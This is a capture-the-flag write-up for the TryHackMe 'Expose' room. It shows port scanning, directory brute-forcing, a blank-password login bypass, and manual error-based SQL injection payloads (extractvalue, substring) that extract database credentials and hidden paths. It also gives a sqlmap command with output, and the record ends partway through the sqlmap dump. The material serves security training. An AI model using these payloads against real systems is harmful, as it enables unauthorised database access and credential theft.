









<table>
  <tr>
    <td>
      
    </td>
    <td width="800">
      <h1>Expose — Write-up</h1>
      <p>Use your red teaming knowledge to pwn a Linux machine:</p>
      <p><strong>Difficulty:</strong> Easy 🟢</p>
       &nbsp;
       &nbsp;
      
    </td>
  </tr>
</table>

> Link : https://tryhackme.com/room/expose


#### Answer the questions below

* What is the user flag?
* What is the root flag?

## 🔍 Reconnaissance

### 👁 Initial Discovery

```bash
sudo nmap -sS --top-ports 10000 10.64.181.39
```
<details>
<summary><b>📂 Click to view raw output</b></summary>

```bash
Starting Nmap 7.98 ( https://nmap.org ) at 2025-12-28 16:37 -0300
Nmap scan report for 10.64.181.39
Host is up (0.16s latency).
Not shown: 8375 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 34.05 seconds
```
</details>

---

### 👁 Service Enumeration

```bash
sudo nmap -sV -sC -p 21,22,53,1337,1883 10.64.181.39
```
<details>
<summary><b>📂 Click to view raw output</b></summary>

```bash
Starting Nmap 7.98 ( https://nmap.org ) at 2025-12-28 16:38 -0300
Nmap scan report for 10.64.181.39
Host is up (0.15s latency).

PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.130.186
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 69:31:69:a8:29:eb:a9:ed:6c:47:5a:87:42:81:b4:ea (RSA)
|   256 a6:e2:3e:4a:df:08:cc:e8:54:47:b8:71:b4:e1:e2:ec (ECDSA)
|_  256 82:78:ad:21:06:fa:4f:3f:65:e7:e1:53:25:93:60:76 (ED25519)
53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: EXPOSED
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/sockets/15min: 0.07
|     $SYS/broker/load/messages/received/15min: 0.07
|     $SYS/broker/load/bytes/sent/1min: 3.65
|     $SYS/broker/bytes/received: 18
|     $SYS/broker/load/bytes/sent/5min: 0.79
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/uptime: 1694 seconds
|     $SYS/broker/store/messages/bytes: 180
|     $SYS/broker/load/messages/sent/1min: 0.91
|     $SYS/broker/load/bytes/received/15min: 1.19
|     $SYS/broker/messages/sent: 1
|     $SYS/broker/load/connections/5min: 0.20
|     $SYS/broker/messages/received: 1
|     $SYS/broker/load/sockets/5min: 0.20
|     $SYS/broker/load/bytes/sent/15min: 0.27
|     $SYS/broker/load/messages/received/1min: 0.91
|     $SYS/broker/load/sockets/1min: 0.91
|     $SYS/broker/load/messages/sent/15min: 0.07
|     $SYS/broker/load/messages/sent/5min: 0.20
|     $SYS/broker/heap/maximum: 49688
|     $SYS/broker/load/bytes/received/1min: 16.45
|     $SYS/broker/load/bytes/received/5min: 3.53
|     $SYS/broker/load/connections/15min: 0.07
|     $SYS/broker/load/connections/1min: 0.91
|     $SYS/broker/bytes/sent: 4
|_    $SYS/broker/load/messages/received/5min: 0.20
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.13 seconds
```
</details>

---

### 🕵️‍♂️ Enumeration Analysis

Based on the Nmap results, we have several interesting attack vectors:

* FTP (Port 21): Anonymous login is enabled. This is a high-priority target to check for sensitive files or configuration backups.
* HTTP (Port 1337): A web server is running on a non-standard port. The page title "EXPOSED" suggests we should look for hidden directories or misconfigured access points.
* DNS (Port 53): Running ISC BIND. While usually standard, it's worth noting for potential zone transfers if we find a domain name.
* MQTT (Port 1883): The Mosquitto broker is active. We can potentially subscribe to topics to intercept messages.

### 📦 FTP - anonymous

```bash
ftp 10.64.181.39
```
<details>
<summary><b>📂 Click to view raw output</b></summary>

```bash
Connected to 10.64.181.39.
220 Welcome to the Expose Web Challenge.
Name (10.64.181.39:attacker): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||46188|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        121          4096 Jun 11  2023 .
drwxr-xr-x    2 0        121          4096 Jun 11  2023 ..
226 Directory send OK.
ftp> 
```
</details>

### 📦 HTTP - Port 1337 Web Browser



### 🛠️ Directory brute-force attack

```bash
gobuster dir -u http://10.64.186.146:1337 -w /usr/share/wordlists/dirb/big.txt
```
<details>
<summary><b>📂 Click to view raw output</b></summary>

```bash
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.64.181.39:1337
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin_101            (Status: 301) [Size: 325] [--> http://10.64.186.146:1337/admin_101/]
/admin                (Status: 301) [Size: 319] [--> http://10.64.181.39:1337/admin/]
/index.php            (Status: 200) [Size: 91]
/index.php            (Status: 200) [Size: 91]
/javascript           (Status: 301) [Size: 324] [--> http://10.64.181.39:1337/javascript/]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://10.64.181.39:1337/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]
```
</details>

## Gobuster Results
```bash
The directory brute-force attack successfully identified several interesting paths:

PathStatus                  Code          Description
/admin                      301           Potential administrative login portal.
/admin                      301           Potential administrative login portal.
/phpmyadmin                 301           Database management interface.
/index.php                  200           The main landing page.
/javascript                 301           Directory for JS assets.
```
## Investigating /admin
Upon navigating to http://10.64.181.39:1337/admin/


<details>
<summary><b>📂 Click to view source code</b></summary>

```bash
<!DOCTYPE html>
<html>
<head>
	<title>Admin Portal</title>
	<meta name="description" content="Is this the right portal?">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<link rel="icon" type="image/png" sizes="32x32" href="./logo.png">
	<link href="assets/bootstrap.min.css" rel="stylesheet" crossorigin="anonymous">
	<link rel="stylesheet" type="text/css" href="assets/styles.css">
	<script src="assets/jquery-3.6.3.js" crossorigin="anonymous"></script>
	<script src="assets/bootstrap.bundle.min.js" crossorigin="anonymous"></script>
	<script src="assets/core.js"></script>
</head>
<body><style type="text/css">
body{background: #fff;color:#000;}
input[type="email"]:focus{border-color: var(--bs-success)}
input[type="password"]:focus{border-color: var(--bs-success)}
</style>
<div class="container">
	<div class="row">
		<div class="col-md-6 mx-auto">
			<div class="d-flex justify-content-center align-items-center" style="height: 100vh"> 
			<div class="text-center">
				
				<h1 class="p-3">Is this the right admin portal?</h1>
				<input type="email" name="email" class="form-control p-3 mb-4" placeholder="Email Address" autocomplete="off">
				<input type="password" name="password" class="form-control p-3 mb-4" placeholder="Password" autocomplete="off">
				<button class="btn btn-primary w-100 p-3 rounded-1 mb-3" id="login">Continue</button>
			</div>
		</div>
		</div>
	</div>
</div>

</body>
</html>
```
</details>

### Static Analysis Conclusion

The decision to abandon the /admin path was based on the following static analysis findings:

* **Decoupled Logic:** The login button exists outside of a standard HTML `<form>` and lacks a type="submit" attribute.
* **Library Misuse:** Source code inspection confirmed that core.js is exclusively the Typewriter.js library, which contains no event listeners for the id="login" button or functions for data transmission (AJAX/Fetch).
* **Zero Network Activity:** Manual interaction triggered no XHR/Fetch requests in the browser's Network tab.
* **These indicators confirm the page is a functional dead-end designed to divert the attacker's attention.**


## Investigating /admin_101
Upon navigating to http://10.64.181.39:1337/admin_101/


<details>
<summary><b>📂 Click to view source code</b></summary>

```bash
<!DOCTYPE html>
<html>
<head>
	<title>Admin Portal</title>
	<meta name="description" content="Is this the right portal?">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<link rel="icon" type="image/png" sizes="32x32" href="./logo.png">
	<link href="assets/bootstrap.min.css" rel="stylesheet" crossorigin="anonymous">
	<link rel="stylesheet" type="text/css" href="assets/styles.css">
	<script src="assets/jquery-3.6.3.js" crossorigin="anonymous"></script>
	<script src="assets/bootstrap.bundle.min.js" crossorigin="anonymous"></script>
	<script src="assets/core.js"></script>
</head>
<body><style type="text/css">
body{background: #fff;color:#000;}
input[type="text"]:focus{border-color: var(--bs-success)}
input[type="password"]:focus{border-color: var(--bs-success)}
</style>
<div class="container">
	<div class="row">
		<div class="col-md-6 mx-auto">
			<div class="d-flex justify-content-center align-items-center" style="height: 100vh"> 
			<div class="text-center">
				
				<h1 class="p-3">Is this the right admin portal?</h1>
				<input type="text" name="email" class="form-control p-3 mb-4" value="hacker@root.thm" placeholder="Username" autocomplete="off">
				<input type="password" name="password" class="form-control p-3 mb-4" placeholder="Password" autocomplete="off">
				<button class="btn btn-primary w-100 p-3 rounded-1 mb-3" id="login">Continue</button>
			</div>
		</div>
		</div>
	</div>
</div>
<script type="text/javascript">
	$('#login').on('click',function(){
		$.ajax({
			url: 'includes/user_login.php',
			method: 'POST',
			data: {
				'email' : $('input[name="email"]').val(),
				'password' : $('input[name="password"]').val(),
			},
			success(data)
			{
				console.log(data)
				if(data)
				{
					if(data.status && data.status == 'success')
						location.href = 'chat.php';
					else{
						console.log(data.status)
						alert(data.status)
					}
				}
			}
		})
	})
</script>
</body>
</html>
```
</details>

---

> The page source reveals a login portal utilizing AJAX for authentication.
> * Endpoint: The form submits a POST request to includes/user_login.php.
> * Default Credential: The email field is pre-populated with a default value: hacker@root.thm.
> * Authentication Logic: The login process is handled by a jQuery script that expects a JSON response. A successful login (data.status == 'success') redirects the user to chat.php.

### Analyzing the Login Panel

#### Analysis of Login Behavior
During the manual exploration, a significant anomaly was observed in the authentication logic of the login portal located at /admin_101/index.php.

Observed Behavior:

Standard Attempt: When providing a non-existent email (e.g., test@test.thm) with a non-empty password (e.g., testpassword), the system correctly denies access and returns an error message.

Authentication Bypass: When providing the same non-existent email (test@test.thm) but leaving the password field completely blank, the system bypasses the security check and successfully redirects the session to a new endpoint: http://10.66.165.160:1337/admin_101/chat.php.


<details>
<summary><b>📂 Click to view source code</b></summary>

```bash
<!DOCTYPE html>
<html>
<head>
	<title>Admin Portal</title>
	<meta name="description" content="Is this the right portal?">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<link rel="icon" type="image/png" sizes="32x32" href="./logo.png">
	<link href="assets/bootstrap.min.css" rel="stylesheet" crossorigin="anonymous">
	<link rel="stylesheet" type="text/css" href="assets/styles.css">
	<script src="assets/jquery-3.6.3.js" crossorigin="anonymous"></script>
	<script src="assets/bootstrap.bundle.min.js" crossorigin="anonymous"></script>
	<script src="assets/core.js"></script>
</head>
<body><div class="d-flex justify-content-center align-items-center flex-column p-5" style="height: 100vh">
	<div class="text-center">
		<h1>We are at capacity right now</h1>
		<p>We're trying to resolve this issue as soon as possible</p>
	</div>
	<b>We would love to hear from you.</b>
	<div class="text-start">
		<p style="line-height: 2" id="app"></p>
	</div>
</div>
<script type="text/javascript" src="assets/script.js"></script>
</body>
</html>
```
</details>

#### Conclusion:
Initial analysis indicates that this is a placeholder page. While the HTML content currently serves as a front-end barrier, the existence of the endpoint itself is confirmed. This suggests that the actual functionality may be hidden, disabled for certain user roles, or requires specific client-side conditions (such as scripts or cookies) to be fully activated. The discovery of this path remains a critical find, as it confirms a successful bypass and identifies a restricted area of the web application.

---

### 💉 Searching for SQLi

#### Login Request and Server Response Analysis


### Step-by-Step: Manual Error-Based SQL Injection

<details> 
<summary>Click to view the step-by-step manual exploitation process</summary>

```text
1. Initial Detection & Vulnerability Confirmation
The entry point was identified in the email field. By injecting a single quote ('), the application returned a verbose MySQL error, confirming a classic SQL Injection vulnerability.

Payload 1 (Triggering the Error): email=hacker@root.thm'&password=admin

Response: You have an error in your SQL syntax... near ''hacker@root.thm''' at line 1

To stabilize the query and ignore the trailing quote from the back-end code, a comment (-- -) was used.

Payload 2 (Stabilization): email=hacker@root.thm'-- -&password=admin

2. Error-Based Enumeration (XPATH Injection)
Since the application displays database errors, the extractvalue() function was used to force the database to leak information within the error message itself.

Payload 3 (Proof of Concept): email=hacker@root.thm' AND (extractvalue(1, concat(0x3a, "Test_injection")))-- -

Result: XPATH syntax error: ':Test_injection'

3. Database Schema Mapping
With the injection working, the next steps involved mapping the database structure.

Identifying the Database Name:

Payload: ... AND (extractvalue(1, concat(0x3a, database())))-- -

Result: expose

Listing Tables:

Payload: ... (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="expose") ...

Result: config, user

Listing Columns for the 'user' Table:

Payload: ... (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name="user") ...

Result: id, email, password, created, Host

4. Overcoming the XPATH Buffer Limitation
A critical challenge in Error-Based SQLi is the 32-character limit imposed by XPATH error messages.

Initial Password Dump:

Payload: ... (SELECT password FROM user LIMIT 1) ...

Partial Result: VeryDifficultPassword!!#@#@!#!@ (31 characters displayed)

To verify if the password was complete, the length() function was used.

Checking Password Length:

Payload: ... (SELECT length(password) FROM user) ...

Result: 36

Analysis: The string was 5 characters longer than the displayed output.

5. Data Exfiltration via Substring
To retrieve the missing characters, the substring() function was employed to shift the starting position of the output.

Retrieving the Tail End:

Payload: ... (SELECT substring(password, 20, 36) FROM user) ...

Result: rd!!#@#@!#!@#1231

Final Credential Reconstruction: By merging the two outputs, the full password was successfully recovered: VeryDifficultPassword!!#@#@!#!@#1231
```
</details>

### Post-Authentication Analysis
After successfully recovering the full credentials for hacker@root.thm, the login was performed at the /admin_101/index.php portal.

**Observations:** Despite using valid administrative credentials, the application redirected to the same placeholder page encountered during the guest access (the "at capacity" message). This confirmed that simply obtaining a valid user account was insufficient to access the administrative tools. This behavior suggests that the actual management interface is either hidden behind a different endpoint or requires a specific configuration toggle found elsewhere in the system.

### Hidden Service Discovery: Enumerating the 'config' Table
<details> <summary>Click to view the step-by-step manual extraction of hidden endpoints</summary>

```text
1. Column Enumeration for the 'config' Table
After confirming the user table only held one record, the focus shifted to the config table to find system-level parameters or hidden paths.

Payload: email=hacker@root.thm' AND (extractvalue(1, concat(0x3a, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name="config"))))-- -

Result: id, url, password

Analysis: The presence of a url column alongside a password column suggested that this table acts as a pointer to restricted directories.

2. Extracting Hidden Endpoints (URL Column)
The LIMIT clause was used to iterate through the records in the config table.

First Entry (Payload): ... (SELECT url FROM config LIMIT 0,1) ...

Result: /file1010111/index.php

Second Entry (Payload): ... (SELECT url FROM config LIMIT 1,1) ...

Result: /upload-cv00101011/index.php

3. Retrieving Access Tokens & Credentials
For each discovered URL, the associated password field was extracted.

Endpoint 1 Token Recovery:

Initial Attempt: ... (SELECT password FROM config WHERE url="/file1010111/index.php") ...

Buffer Handling: Due to the 32-character XPATH limit, substring() was used to ensure the full string was captured.

Full String: 69c66901194a6486176e81f5945b8929 (Identified as a 32-character MD5 hash).

Endpoint 2 Hint Recovery:

Initial Attempt: ... (SELECT password FROM config WHERE url="/upload-cv00101011/index.php") ...

Observation: The result returned a string longer than 31 characters.

Reconstruction via Substring:

Part 1: // ONLY ACCESSIBLE THROUGH USER

Part 2: NAME STARTING WITH Z

Complete Hint: // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z
```
</details>

### Discovery of Hidden Endpoints via 'config' Table
The investigation was expanded to the config table to identify potential administrative paths. The extraction revealed two critical hidden directories:

**File Access Portal:**

Path: /file1010111/index.php
Associated Data: 69c66901194a6486176e81f5945b8929 (A 32-character string, likely an MD5 hash or a specific access token).

**CV Upload Portal:**

Path: /upload-cv00101011/index.php

Restriction Hint: // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z

Analysis: This indicates a logic gate where the upload functionality is restricted to specific usernames, pointing towards a potential horizontal privilege escalation or a requirement for a different user context.

### 💆🏻‍♀️ Automating the Attack: The SQLmap Shortcut 

For those who prefer automation or need to scale the extraction, the following sqlmap command replicates our manual process and dumps the entire contents of the relevant tables:

```bash
sqlmap -u "http://10.66.165.160:1337/admin_101/includes/user_login.php" --data="email=hacker@root.thm&password=admin" -p "email" --level=5 --risk=3 --batch --dump
```
<details>

```bash

       __H__
 ___ ___["]_____ ___ ___  {1.9.12#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:28:58 /2025-12-29/
[13:28:58] [INFO] resuming back-end DBMS 'mysql' 
[13:28:58] [INFO] testing connection to the target URL
[13:28:59] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=hacker@root.thm' AND 7801=(SELECT (CASE WHEN (7801=7801) THEN 7801 ELSE (SELECT 4706 UNION SELECT 9271) END))-- -&password=admin

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=hacker@root.thm' AND GTID_SUBSET(CONCAT(0x71786a6a71,(SELECT (ELT(2219=2219,1))),0x7170787071),2219)-- GcMd&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=hacker@root.thm' AND (SELECT 4352 FROM (SELECT(SLEEP(5)))JCpP)-- nzvL&password=admin
---
[13:28:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[13:28:59] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[13:28:59] [INFO] fetching current database                                                                                                                                                         
[13:28:59] [INFO] retrieved: 'expose'                                                                                                                                                               
[13:28:59] [INFO] fetching tables for database: 'expose'                                                                                                                                            
[13:28:59] [INFO] retrieved: 'config'                                                                                                                                                               
[13:29:00] [INFO] retrieved: 'user'                                                                                                                                                                 
[13:29:00] [INFO] fetching columns for table 'user' in database 'expose'                                                                                                                            
[13:29:00] [INFO] retrieved: 'id'                                                                                                                                                                   
[13:29:00] [INFO] retrieved: 'int'                                                                                                                                                                  
[13:29:00] [INFO] retrieved: 'email'                                                                                                                                                                
[13:29:01] [INFO] retrieved: 'varchar(512)'
[13:29:01] [INFO] retrieved: 'password'
[13:29:01] [INFO] retrieved: 'varchar(512)'
[13:29:01] [INFO] retrieved: 'created'
[13:29:01] [INFO] retrieved: 'timestamp'
[13:29:01] [INFO] fetching entries for table 'user' in database 'expose'
[13:29:02] [INFO] retrieved: '2023-02-21 09:05:46'
[13:29:02] [INFO] retrieved: 'hacker@root.thm'
[13:29:02] [INFO] retrieved: '1'
[13:29:03] [INFO] retrieved: 'VeryDifficultPassword!!#@#@!#!@#1231'
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
